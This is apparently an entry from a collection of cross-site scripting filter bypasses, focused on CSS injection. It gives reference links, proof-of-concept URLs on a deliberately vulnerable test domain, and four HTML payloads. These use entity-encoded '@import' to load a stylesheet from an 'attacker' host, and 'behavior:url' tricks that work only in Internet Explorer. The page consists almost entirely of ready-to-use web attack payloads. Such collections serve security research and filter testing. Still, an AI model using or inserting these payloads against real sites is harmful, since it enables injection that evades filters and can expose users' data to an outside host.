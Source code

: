 Reference URL:

- [https://twitter.com/0x6D6172696F/status/752190911879184384](https://twitter.com/0x6D6172696F/status/752190911879184384)
- [http://www.businessinfo.co.uk/labs/talk/The_Sexy_Assassin.ppt](http://www.businessinfo.co.uk/labs/talk/The_Sexy_Assassin.ppt)
- [https://blog.innerht.ml/cascading-style-scripting/](https://blog.innerht.ml/cascading-style-scripting/)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3Csvg%3E%3Cstyle%3E%26commat%3Bimport'//attacker'%3C/style%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Csvg%253E%253Cstyle%253E%2526commat%253Bimport%27//attacker%27%253C/style%253E)

```html
<svg><style>&commat;import'//attacker'</style>
```

[https://vulnerabledoma.in/bypass/text?q=%3Csvg%3E%3Cstyle%3E@%26bsol%3B0069mport%27//attacker%27%3C/style%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Csvg%253E%253Cstyle%253E@%2526bsol%253B0069mport%2527//attacker%2527%253C/style%253E)

```html
<svg><style>@&bsol;0069mport'//attacker'</style>
```

(IE+IE10 mode only) [https://vulnerabledoma.in/bypass/text?q=%3Cp%20style="behavior%26colon%3Burl('/bypass/usercontent/xss.txt')"%3Etest&xuac=10](https://vulnerabledoma.in/bypass/text?q%3D%253Cp%2520style%3D%2522behavior%2526colon%253Burl(%27/bypass/usercontent/xss.txt%27)%2522%253Etest%26xuac%3D10)

```html
<p style="behavior&colon;url('/bypass/usercontent/xss.txt')">
```

(IE+IE10 mode only) [https://vulnerabledoma.in/bypass/text?q=%3Cp%20style="behavior:url%26lpar%3B'/bypass/usercontent/xss.txt')"%3Etest&xuac=10](https://vulnerabledoma.in/bypass/text?q%3D%253Cp%2520style%3D%2522behavior:url%2526lpar%253B%27/bypass/usercontent/xss.txt%27)%2522%253Etest%26xuac%3D10)

```html
<p style="behavior:url&lpar;'/bypass/usercontent/xss.txt')">
```
